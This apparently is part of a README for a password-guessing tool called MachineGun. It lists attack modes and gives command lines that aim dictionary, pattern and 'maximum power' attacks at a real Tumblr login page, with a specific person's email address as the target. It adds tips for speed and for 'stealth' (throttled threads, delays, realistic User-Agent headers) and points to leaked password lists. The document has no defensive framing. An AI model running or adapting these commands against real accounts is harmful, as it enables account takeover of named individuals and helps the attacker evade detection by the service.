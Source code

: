 ### Attack Types
- `substitution` - Character substitutions and case permutations
- `dictionary` - Dictionary-based attacks with common words
- `pattern` - Pattern-based generation (dates, keyboard, sequences)
- `hybrid` - Hybrid attacks combining words with numbers/symbols
- `contextual` - Contextual passwords based on target information
- `brute_force` - Brute force with character sets
- `comprehensive` - All attack types combined
- `maximum_power` - Maximum power attack using all techniques (200K+ variants)

### MachineGun Examples

#### Dictionary Attack
```bash
python3 machinegun.py -u jonscottnelson@gmail.com -p "" -t https://www.tumblr.com/login --attack dictionary --dictionaries targeted_passwords comprehensive_final --limit 1000 --dry-run --no-confirm
```

#### Maximum Power Attack
```bash
python3 machinegun.py -u jonscottnelson@gmail.com -p "password123" -t https://www.tumblr.com/login --attack maximum_power --limit 50000 --dry-run --no-confirm
```

#### Pattern Attack
```bash
python3 machinegun.py -u jonscottnelson@gmail.com -p "test" -t https://www.tumblr.com/login --attack pattern --limit 1000 --dry-run --no-confirm
```

## 📊 Performance Tips

### Speed Optimization
- Use `-t 64` or `-t 128` for maximum threads
- Use `-w 0` to remove delays
- Use smaller dictionaries for faster results
- Use `-f` to stop after first success

### Stealth Optimization
- Use `-t 8` or `-t 16` for fewer threads
- Use `-w 2` or `-w 3` for delays between attempts
- Use `-W 5` for delays between login attempts
- Use realistic User-Agent headers

### Coverage Optimization
- Start with targeted passwords
- Progress to comprehensive dictionaries
- Use RockYou for maximum coverage
- Use CrackStation for ultimate coverage
